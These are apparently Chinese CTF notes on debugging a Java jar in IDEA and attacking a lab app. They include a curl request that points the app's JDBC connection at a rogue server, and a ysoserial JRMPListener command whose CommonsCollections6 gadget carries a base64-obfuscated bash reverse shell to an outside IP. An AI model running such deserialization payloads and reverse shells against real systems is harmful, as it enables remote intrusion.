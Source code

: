 - 有 pom.xml 文件，复制内容到 idea. maven 更新，会有些 vuln 提示
- [jdbcDriver](#jdbcdriver) : rogue_mysql_server 

# Java jar 文件调试

```sh
java -jar -Xdebug -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=5005 <jarfile>
```

解压出 jar 文件。classes 下的内容放到 src 下面。在 idea 中看 比如 `com\ctf\badjava\BadjavaApplication.class` 放到 `src\com\ctf\badjava\BadjavaApplication.class`

- idea 中打开会显示源码，保存一份复制为 BadjavaApplication.java
- 去掉前几行的注释

`Edit Configuration - remote`, 默认参数即可。

- 下断点可正常调试了


# jdbcDriver
```sh
curl 192.168.142.1:8080/app3/testConnection/ -d 'Driver=com.tinysoft.jdbc.bridge.client.ClientDriver&url=jdbc:tsserver://127.0.0.1:3306/test'
# jdbc:tsserver 地址是是从服务器端发起的请求地址.
```

# ysoserial

```sh
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JAAvZGVDL3RjcC8xMjEuNDAuMjUzLjE3Ny8zODg4OCAwPiYx}|{base64,-d}|{bash,-i}"
```